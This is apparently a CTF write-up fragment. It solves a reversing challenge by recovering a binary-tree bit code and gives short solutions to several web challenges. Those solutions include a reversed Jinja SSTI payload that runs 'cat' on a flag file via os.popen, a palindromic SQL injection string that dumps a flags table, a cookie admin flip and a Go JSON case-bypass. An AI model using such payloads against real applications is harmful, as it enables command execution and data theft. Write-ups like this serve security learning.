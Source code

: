 In the main logic, the flag's bits are calculated from the path in a binary tree. We need to find the flag bits from the path in binary tree to the target string `zvzjyvosgnzkbjjjypjbjdvmsjjyvsjx` (modified in this challenge).

How to find the structure of the tree? We can use dynamic analysis, extract memory data from the execution.

```
[[‘y’, ‘0000’], [‘b’, ‘00010’], [‘q’, ‘00011’], [‘g’, ‘0010’], [‘f’, ‘0011’], [‘j’, ‘010’], [‘w’, ‘01100’], [‘p’, ‘01101’], [‘x’, ‘011100’], [‘d’, ‘0111010’], [‘i’, ‘0111011’], [‘k’, ‘01111’], [‘s’, ‘100’], [‘z’, ‘1010’], [‘n’, ‘1011’], [‘c’, ‘11000’], [‘t’, ‘110010’], [‘e’, ‘110011’], [‘h’, ‘1101’], [‘o’, ‘11100’], [‘l’, ‘1110100’], [‘u’, ‘11101010’], [‘r’, ‘111010110’], [‘a’, ‘111010111’], [‘m’, ‘111011’], [‘v’, ‘1111’]]
```

Find the path is simple, I won't describe here.

## Web

Challenges are from [DiceCTF 2022 @Hope](https://hope.dicega.ng/challs), nice competition!

### 简单的签到

Change the value of `admin` to `true` in cookie.

### 简单的模板

Simply use SSTI reversed version.

```python
}})')(daer.)"txt.galf/ppa/ tac"(nepop.)"so"(__tropmi__'(]'lave'[]'__snitliub__'[__slabolg__.__tini__.]331[)(__sessalcbus__.]0[__sesab__.__ssalc__.''{{
```

### 简单的注入

In the palindrome submit, we can start SQL injection attack.

The input should be a palindrome string.

```sqlite
'||(select flag from flags));--;))sgalfmorfgalftceles(||'
```

### 简单的序列

A simple GoLang unmarshal challenge. The GoLang's unmarshal doesn't care about the case of json, we can use upper case to bypass the filter.

```json
{
    "whaT_point":"that_point"
}
```

## Remarks

Hope you enjoy this competition, and take this practice as a learning progress.